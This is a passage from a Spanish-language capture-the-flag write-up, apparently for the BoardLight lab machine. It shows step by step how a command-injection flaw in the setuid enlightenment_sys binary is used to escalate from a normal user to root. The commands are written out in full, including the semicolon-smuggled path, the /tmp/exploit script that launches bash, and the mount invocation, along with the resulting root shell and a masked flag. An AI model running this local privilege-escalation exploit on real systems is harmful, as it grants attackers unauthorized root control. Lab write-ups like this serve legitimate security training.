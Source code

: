 ![Exploit](../assets/images-BoardLight/Exploit2.png)

Voy a replicar la explotacion.Por lo tanto por lo que veo primero tengo que crear `/tmp/net`. También necesito `/tmp/;/tmp/exploit` que aquí será donde se produce la inyección  , `;` Tiene que existir como directorio
```bash
larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ mkdir -p /tmp/net
larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ find '/tmp/;' -ls
   174408      4 drwxrwxr-x   3 larissa  larissa      4096 Oct  1 21:56 /tmp/;
   174409      4 drwxrwxr-x   3 larissa  larissa      4096 Oct  1 21:56 /tmp/;/tmp
   174410      4 drwxrwxr-x   2 larissa  larissa      4096 Oct  1 21:56 /tmp/;/tmp/exploit
```

```bash
echo "/bin/bash" > /tmp/exploit
chmod +x /tmp/exploit
```

```bash
larissa@boardlight:~$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.'
root@boardlight:/home/larissa#
```
Ya estamos como root y podemos leer la flag de root
```bash
root@boardlight:/root# cat root.txt 
*********************a39e7a9f
```
